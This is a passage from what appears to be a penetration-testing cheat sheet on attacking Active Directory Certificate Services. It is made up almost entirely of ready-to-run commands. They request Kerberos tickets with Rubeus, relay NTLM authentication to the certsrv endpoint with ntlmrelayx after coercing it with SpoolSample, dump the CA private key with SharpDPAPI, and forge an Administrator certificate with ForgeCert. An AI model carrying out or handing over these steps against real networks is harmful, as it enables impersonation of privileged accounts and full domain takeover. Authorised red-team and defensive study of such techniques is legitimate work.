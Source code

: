 ````
.\Rubeus.exe asktgt /user:<USERNAME> /certificate:<BASE64 CERT> /password:password /aes256 /nowrap
```

#### Write TGT kirbi
```
[System.IO.File]::WriteAllBytes("C:\Users\public\<USER>.kirbi", [System.Convert]::FromBase64String("<TICKET STRING>"))
```
 
#### Then load TGT and request TGS or access systems as this user.

### Relaying to ADCS HTTP Endpoints
- AD CS services support HTTP enrolment methods and even includes a GUI.  This endpoint is usually found at http[s]://<hostname>/certsrv, and by default supports NTLM and Negotiate authentication methods.

#### Start ntlmrelayx.py
```
ntlmrelayx.py -t http://10.10.15.75/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
```
 
#### Force authentication
```
.\SpoolSample.exe <IP> <IP>
```
 
#### Ouput should give a TGT which can be used with S4U2self
- LINK TO S4U2self
 
### Forged Certificates
#### Dump the private keys
- Execute on the CA server. You can generally tell this is the private CA key because the Issuer and Subject are both set to the distinguished name of the CA.
- https://github.com/GhostPack/SharpDPAPI
```
.\SharpDPAPI.exe certificates /machine
```
- Save cert + key in a cert.pem file

#### Transform cert to pfx
- Set a password, password
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Create a forged certificate
```
.\ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "password" --Subject "CN=User" --SubjectAltName "Administrator@<DOMAIN>" --NewCertPath fake.pfx --NewCertPassword "password"
```

#### Create a TGT
```
cat cert.pfx | base64 -w 0
.\Rubeus.exe asktgt /user:Administrator /domain:<DOMAIN> /certificate:<BASE64 CERT> /password:password /nowrap
```

#### Write TGT kirbi
```
[System.IO.File]::WriteAllBytes("C:\Users\public\<USER>.kirbi", [System.Convert]::FromBase64String("<TICKET STRING>"))
```
 
#### Then load TGT and request TGS or access systems as this user.
````